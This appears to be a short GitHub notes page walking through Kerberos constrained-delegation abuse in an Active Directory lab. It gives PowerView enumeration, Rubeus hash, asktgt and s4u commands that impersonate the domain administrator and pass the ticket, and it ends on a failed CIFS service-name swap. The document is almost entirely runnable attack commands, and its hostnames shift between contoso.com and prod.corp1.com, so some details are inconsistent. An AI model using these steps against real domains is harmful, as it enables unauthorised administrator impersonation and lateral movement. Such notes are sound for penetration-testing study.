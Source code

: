 **IMPORTANT NOTE:** ALL THIS HAVE TO BE PERFORMED FROM A POWERSHELL SESSION

1st Enumeration with PowerView, this will return us that the iisvc account has the msds-allowedtodelegateto property set to: "MSSQLSvc/cdc01.contoso.com:1433"
	
```Get-DomainUser -TrustedToAuth```

2nd Calculate the password hash of the iisvc account
	
```.\Rubeus.exe hash /password:lab```

3rd Ask for a TGT for the iisvc account 
	
```.\Rubeus.exe asktgt /user:iissvc /domain:contoso.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E```
	
4th Request a TGS for the administrator user for accessing the "MSSQLSvc/cdc01.prod.corp1.com:1433" service using the iisvc TGT previously requested
	
 ```.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.contoso.com:1433 /ptt```
	
5th Request a TGS for the administrator user for accessing the "CIFS/cd01.prod.corp1.com:1433" service using the iisvc TGT previously requested
	
 ```.\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt```   -> Unfortunately, the SPN for the MSSQL server ends with “:1433”, which is not usable for CIFS since it requires an SPN with the format CIFS/cdc01.prod.corp1.com. If we modify the SPN from CIFS/cdc01.prod.corp1.com:1433 to CIFS/cdc01.prod.corp1.com in the command above, Rubeus generates an KDC_ERR_S_PRINCIPAL_UNKNOWN error, indicating that the modified SPN is not registered.
	

